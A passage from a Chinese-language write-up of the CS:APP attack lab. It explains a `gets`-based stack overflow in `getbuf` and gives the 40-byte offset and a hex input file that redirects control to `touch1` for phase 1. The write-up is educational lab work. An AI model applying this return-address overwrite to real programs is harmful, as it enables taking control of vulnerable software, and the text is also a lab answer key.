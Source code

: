 - 代码注入脆弱点位于`getbuf`函数中，该函数会调用`gets`函数，这可能会造成溢出。  
  在该函数中，字符串所存入的地址为`0x5561dc78`，当前函数的返回地址存储于`0x5561dca0`，其相对偏移为`40`
  ![Wrong](img/csapp-lab-writeup/ctarget_2.png)
- **phase1**
  - 该关卡只要求将程序的控制流返回至`touch1`函数中即可，其中该函数的地址为`0x4017c0`  
  - 这里需要利用栈溢出来修改栈上的**函数返回地址**
  - 故最终的输入文件如下
    > 注意文件中的`00`不可省略，因为这是函数地址的一部分（64位中指针大小为8字节）
    > 注意**小端序**

      ```text
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      c0 17 40 00 00 00 00 00
      ```

    通过当前关卡的截图如下
